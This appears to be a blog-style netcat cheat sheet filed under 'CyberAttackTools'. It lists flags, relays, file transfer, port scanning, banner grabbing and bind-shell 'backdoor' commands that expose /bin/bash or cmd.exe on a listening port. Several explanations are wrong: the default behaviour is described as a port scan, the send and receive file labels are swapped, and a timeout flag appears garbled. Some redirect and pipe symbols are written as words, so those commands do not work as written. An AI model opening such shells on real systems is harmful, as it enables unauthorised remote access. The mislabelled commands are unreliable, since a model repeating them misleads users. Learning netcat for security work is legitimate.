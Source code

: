 ```yaml
---
title: Meow's CyberAttackTools - netcat
date: 2019-09-17 11:11:11 -0400
categories: [CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# netcat

[toc]

---

# Netcat Fundamentals

```bash
nc [options] [host] [port]
# by default this will execute a port scan

nc -l [host] [port]
# initiates a listener on the given port

Netcat Command Flags
nc -4 
# use IPv4 only

nc -6 
# use IPv6

nc -u 
# use UDP instead of TCP

nc -k -l 
# continue listening after disconnection

nc -n 
# skip DNS lookups

nc -v 
# provide verbose output
```

### Netcat Relays on Windows

```bash
nc [host] [port] > relay.bat
# open a relay connection

nc -l -p [port] -e relay.bat
# connect to relay
```

### Netcat Relays on Linux
```
nc -l -p [port] 0 (less than) backpipe (pipe) nc [client IP] [port] (pipe) tee backpipe
```

### Netcat File Transfer

```bash
nc [host] [port] (greater than) file_name.out
# send a file

nc [host] [port] (less than) file_name.in 
# receive a file
```


### Netcat Port Scanner

```bash
nc -zv site.com 80
# scan a single port

nc -zv hostname.com 80 84 
# scan a set of individual ports

nc -zv site.com 80-84 
# scan a range of ports
```


### Netcat Banners

```bash
echo “” | nc -zv -wl [host] [port range] 
# obtain the TCP banners for a range of ports
```

### Netcat Backdoor Shells

```bash
nc -l -p [port] -e /bin/bash 
# run a shell on Linux

nc -l -p [port] -e cmd.exe 
# run a shell on Netcat for Windows
```








ref:
- [nmap](https://nmap.org/bennieston-tutorial/)